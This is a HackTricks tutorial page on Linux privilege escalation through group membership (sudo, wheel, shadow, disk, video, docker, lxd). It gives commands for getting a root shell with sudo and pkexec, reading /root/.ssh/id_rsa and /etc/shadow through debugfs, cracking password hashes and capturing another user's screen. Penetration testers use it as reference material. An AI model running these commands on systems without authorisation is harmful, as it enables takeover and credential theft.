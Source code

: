 

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


# Sudo/Admin Groups

## **PE - Method 1**

**Sometimes**, **by default \(or because some software needs it\)** inside the **/etc/sudoers** file you can find some of these lines:

```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```

This means that **any user that belongs to the group sudo or admin can execute anything as sudo**.

If this is the case, to **become root you can just execute**:

```text
sudo su
```

## PE - Method 2

Find all suid binaries and check if there is the binary **Pkexec**:

```bash
find / -perm -4000 2>/dev/null
```

If you find that the binary pkexec is a SUID binary and you belong to sudo or admin, you could probably execute binaries as sudo using pkexec.  
Check the contents of:

```bash
cat /etc/polkit-1/localauthority.conf.d/*
```

There you will find which groups are allowed to execute **pkexec** and **by default** in some linux can **appear** some of the groups **sudo or admin**.

To **become root you can execute**:

```bash
pkexec "/bin/sh" #You will be prompted for your user password
```

If you try to execute **pkexec** and you get this **error**:

```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```

**It's not because you don't have permissions but because you aren't connected without a GUI**. And there is a work around for this issue here: [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). You need **2 different ssh sessions**:

{% code title="session1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% endcode %}

{% code title="session2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

# Wheel Group

**Sometimes**, **by default** inside the **/etc/sudoers** file you can find this line:

```text
%wheel	ALL=(ALL:ALL) ALL
```

This means that **any user that belongs to the group wheel can execute anything as sudo**.

If this is the case, to **become root you can just execute**:

```text
sudo su
```

# Shadow Group

Users from the **group shadow** can **read** the **/etc/shadow** file:

```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```

So, read the file and try to **crack some hashes**.

# Disk Group

 This privilege is almost **equivalent to root access** as you can access all the data inside of the machine.

Files:`/dev/sd[a-z][1-9]`

```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```

Note that using debugfs you can also **write files**. For example to copy `/tmp/asd1.txt` to `/tmp/asd2.txt` you can do:

```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```

However, if you try to **write files owned by root** \(like `/etc/shadow` or `/etc/passwd`\) you will have a "**Permission denied**" error.

# Video Group

Using the command `w` you can find **who is logged on the system** and it will show an output like the following one:

```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```

The **tty1** means that the user **yossi is logged physically** to a terminal on the machine.

The **video group** has access to view the screen output. Basically you can observe the the screens. In order to do that you need to **grab the current image on the screen** in raw data and get the resolution that the screen is using. The screen data can be saved in `/dev/fb0` and you could find the resolution of this screen on `/sys/class/graphics/fb0/virtual_size`

```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```

To **open** the **raw image** you can use **GIMP**, select the **`screen.raw`** file and select as file type **Raw image data**:

![](../../.gitbook/assets/image%20%28208%29.png)

Then modify the Width and Height to the ones used on the screen and check different Image Types \(and select the one that shows better the screen\):

![](../../.gitbook/assets/image%20%28295%29.png)

# Root Group

It looks like by default **members of root group** could have access to **modify** some **service** configuration files or some **libraries** files or **other interesting things** that could be used to escalate privileges...

**Check which files root members can modify**:

```bash
find / -group root -perm -g=w 2>/dev/null
```

# Docker Group

You can mount the root filesystem of the host machine to an instance’s volume, so when the instance starts it immediately loads a `chroot` into that volume. This effectively gives you root on the machine.





# lxc/lxd Group

[lxc - Privilege Escalation](lxd-privilege-escalation.md)



<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


